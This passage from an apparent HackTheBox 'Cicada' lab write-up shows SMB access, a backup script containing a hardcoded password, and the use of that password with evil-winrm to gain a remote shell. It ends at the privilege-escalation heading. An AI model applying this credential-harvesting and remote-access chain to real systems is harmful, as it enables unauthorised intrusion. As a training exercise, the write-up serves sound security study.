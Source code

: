 Once we login, there's one file which we grab: `Backup_script.ps1`

```sh
┌──(pl4stic㉿kali)-[~/htb/cicada]
└─$ smbclient \\\\10.129.84.61\\DEV -U david.orelious%'aRt$Lp#7t*VQ!3'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 08:31:39 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 13:28:22 2024

                4168447 blocks of size 4096. 435223 blocks available
smb: \> get Backup_script.ps1
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (5.7 KiloBytes/sec) (average 5.7 KiloBytes/sec)
```

### Backup_script.ps1

And would you look at that, another credential in the script.

```PowerShell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

`CICADA\emily.oscars:Q!3@Lp#M6b*7t*Vt`

### Shell as emily.oscars

From our Bloodhound enumeration, we noticed `emily.oscars` has `CanPSRemote` access to the machine.

![cicada2](/images/cicada2.png)

```sh
┌──(pl4stic㉿kali)-[~/htb/cicada]
└─$ evil-winrm -i 10.129.84.61 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents>
```

## Privilege Escalation
